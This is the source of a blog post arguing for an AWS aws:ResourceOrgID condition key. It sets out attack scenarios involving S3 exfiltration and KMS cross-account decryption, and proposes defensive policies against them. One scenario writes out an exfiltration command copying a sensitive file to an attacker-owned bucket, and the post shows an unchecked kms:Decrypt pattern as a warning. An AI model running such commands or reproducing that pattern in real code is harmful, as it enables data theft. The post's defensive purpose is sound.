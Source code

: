 ```yaml
---
layout: post
title:  AWS IAM needs aws:ResourceOrgID
date:
  created: 2020-09-29T02:12:52
categories:
  - AWS
---
```


<!-- more -->

## Update

In April 2022, AWS released `aws:ResourceOrgID` (and a couple of other related
condition keys). This [blog post][launch-post] does a great job of describing 
how it works. I'll leave the rest of this blog post in place for historical
interest, but it's now outdated.

## Background

In May 2018, AWS [released][aws-blog] a new IAM condition key, `aws:PrincipalOrgID`.
This was a game-changer for improving security posture as it made the dream of
extremely granular AWS accounts that much more achievable. I won't go into
detail on why it was so useful as I'm sure others have written much better
explanations than I could.

The existence of `aws:PrincipalOrgID` made writing some _resource_-based policies
much easier. In the same theme, a hypothetical `aws:ResourceOrgID` condition key
would be extremely useful for _identity_-based policies, service control policies
and VPC endpoint policies. I'm not alone in thinking this. For example, in
Square's [blog post][square-blog] on adoption of VPC endpoints they wrote this:

> There is a limit of 20,480 characters on VPC Endpoint Policies. While this may 
> suffice for most use-cases, at Square we currently have close to 200 AWS accounts 
> and are expected to add hundreds more AWS accounts as more teams build in the 
> cloud. We calculated that with our policy specification, we cannot list more 
> than approximately 800 AWS accounts. In order to monitor this we have a graph 
> of the VPC Endpoint Policy text sizes (in number of characters) and have an 
> alarm set if that reaches into the ten thousand characters.
>
> If AWS offers a `aws:ResourceOrgID` IAM conditional context key, similar to 
> the `aws:PrincipalOrgID` conditional context key, we would not have to manually 
> list AWS accounts in the resources section.

Additionally, this is a frequent topic of ~~complaining~~ discussion in the
Cloud Security Forum:

![screenshot](/assets/2020-09-29-cloudsecurityforum.png)

## Arguments for aws:ResourceOrgID

Something to keep in mind is that these scenarios may seem trivial to fix: it's
a matter of "duh, don't do that thing" and that is indeed often true of the
demographics that might read this blog. But there are large orgs that have
hundreds to thousands of developers of *significantly* differing levels of
AWS proficiency. That's where an SCP like the following can be exceedingly
useful:

```json
{
    "Effect": "Deny",
    "Action": "kms:Decrypt",
    "Condition": {
        "StringNotEquals": {
            "aws:ResourceOrgID": "o-my-org-id"
        }
    }
}
```

Scenario one: Imagine a scenario wherein an attacker has gained control of an 
EC2 instance with an IAM policy that has `s3:PutObject` permissions on `*` 
resources. The attacker could exfiltrate data to a bucket that they own by 
running `aws s3 cp sensitive-file s3://attacker-bucket/`. This usually should 
be prevented by being explicit about buckets that it has write access to. But
for argument's sake, it needs unbounded access. This could be made safer by
adding a condition that the instance role can only write to buckets owned by
the org.

Scenario two: An attacker can trivially circumvent the protection in scenario
one by using their own access key ID instead of the instance's to perform the 
file upload. This is where the condition key would be useful in a VPC endpoint:
any same-region traffic to S3 could be restricted to buckets owned by the org
by including an `aws:ResourceOrgID` condition key.

Scenario three: You are running a centrally-administered EKS/ECS cluster. Images
are stored in ECR repositories across the org. You want to prevent attackers from
specifying that an image hosted in an attacker-owned account should be run -
the condition key helps here too. Likewise with ECR VPC endpoint policies.

Scenario four: An attacker convinces your application to call `kms:Decrypt` on
an attacker-provided ciphertext that has been encrypted with a KMS CMK
owned by the attacker. The attacker's CMK has a key policy that grants `kms:Decrypt`
to `*` principals and your application has an IAM policy that grants `kms:Decrypt`
on `*` keys.

## The problem with KMS keys

I think scenario four warrants the most thought. In my (limited, anecdotal) 
experience AWS KMS is the service that suffers in terms of the ratio of
being poorly understood relative to how critical it is. There's also some
unfortunate gotchas in the user experience that make security issues more likely.

The first issue concerns the relationship between KMS key IDs, key aliases and
IAM principal policies. When you _use_ a KMS key, you're usually calling one
of the KMS APIs (like `Decrypt`, `Encrypt`, etc) with a key *alias*, e.g.:

```javascript
    kmsClient.encrypt({ 
        Plaintext = someSensitiveUserData, 
        KeyId = "alias/MyEncryptionKey" 
    })
```

This is a much more pleasant dev experience than passing in a key ID, which is
an opaque GUID. This is doubly the case if you are using multiple AWS regions
and/or multiple AWS accounts: it's very tempting to use the same alias in
each environment so you don't need to make your code configurable.

Where this experience falls down is in assigning permissions. The first thing
a developer will try is the following IAM policy statement:

```yaml
- Effect: Allow
  Action: [kms:Encrypt, kms:Decrypt]
  Resource: !Sub arn:aws:kms:${AWS::Region}:${AWS::AccountId}:alias/MyEncryptionKey
```

This will fail. The resource must be the **key ID**. So what are they going to 
do? They have a few lousy options:

* Make the key ID a template parameter. This now makes instantiating the template
  more annoying.
* Add all the key IDs to a `Mappings` section. This now makes the `Resource` field
  more effort _and_ uglier. You might call this petty, but would you say developers
  aren't petty?
* Change the statement to be `Resource: "*"`. And why wouldn't they? It's substantially
  easier, guaranteed to work and the attack scenarios aren't immediately apparent. 
  How insecure could it be when the key alias is hardcoded in the app?

The issue only arises when the app later calls `kms:Decrypt` if the ciphertext
is provided by the user. The issue is that an attacker can provide a ciphertext
encrypted with *their* key. `kms:Decrypt` supports an *optional* `KeyId` 
parameter, but 99% of the time I see the following usage:

```javascript
    const resp = await kmsClient.decrypt({ CiphertextBlob = someCiphertextString });
    const decrypted = resp.Plaintext;
    // some code that uses the decrypted value
```

This works because the key ID is encoded into the ciphertext blob returned by
`kms:Encrypt`. It's very handy because you don't need to record the key ID alongside
the encrypted data! And it's typically pretty secure, because if an attacker 
tries to modify the ciphertext, it becomes invalid and returns and error as
the cipher is authenticated. This in combination with the hardcoded encryption
key will lead most developers to feeling confident in the security of the system
as-is.

But that authentication **counts for nothing** if you don't validate that the 
`resp.KeyId` matches the `KeyId` that you passed to the `kms:Encrypt` API call.

I suspect that this problem is more likely to occur than you might first guess.
Think of scenarios like a Dropbox app, where the backend encrypts users' files
that are then stored on users' machines. The authenticated nature of the ciphertext
would lead most reasonable developers to believe the data is tamper-proof.

It's for this reason that I think an `aws:ResourceOrgID` condition key would be
extremely useful for AWS Organization SCPs: to deny the very uncommon scenario
of cross-org encryption/decryption. In the unlikely scenario that is part of
your workflow, it can always be narrowed down to not deny usage of cross-org
keys by suitably tagged IAM principals.

## What does AWS have to say about all this?

The [`kms:Decrypt`][docs] do actually have a bit to say on this, but it's not
spelled out as clearly as might be necessary for someone without sufficient
pre-existing background. The relevant excerpts:

> [s]pecifying the CMK is always recommended as a best practice. When you use 
> the KeyId parameter to specify a CMK, AWS KMS only uses the CMK you specify. 
> If the ciphertext was encrypted under a different CMK, the Decrypt operation 
> fails. This practice ensures that you use the CMK that you intend.
>
> Whenever possible, use key policies to give users permission to call the Decrypt 
> operation on a particular CMK, instead of using IAM policies. Otherwise, you
> might create an IAM user policy that gives the user Decrypt permission on all 
> CMKs. This user could decrypt ciphertext that was encrypted by CMKs in other 
> accounts if the key policy for the cross-account CMK permits it. If you 
> must use an IAM policy for Decrypt permissions, limit the user to particular 
> CMKs or particular trusted accounts. 
>
> [...]
> 
> `KeyId`
> [...] If you used a symmetric CMK, AWS KMS can get the CMK from metadata that 
> it adds to the symmetric ciphertext blob. However, it is always recommended 
> as a best practice. This practice ensures that you use the CMK that you intend.

## You're wrong

I probably am wrong. Or maybe I've misestimated the likelihood of something. Or
very likely: I've not considered another great reason why this would be a wonderful
new condition key. Please reach out to me on Twitter and share your thoughts.

[launch-post]: https://aws.amazon.com/blogs/security/how-to-control-access-to-aws-resources-based-on-aws-account-ou-or-organization/
[aws-blog]: https://aws.amazon.com/blogs/security/control-access-to-aws-resources-by-using-the-aws-organization-of-iam-principals/
[square-blog]: https://developer.squareup.com/blog/adopting-aws-vpc-endpoints-at-square/
[docs]: https://docs.aws.amazon.com/kms/latest/APIReference/API_Decrypt.html
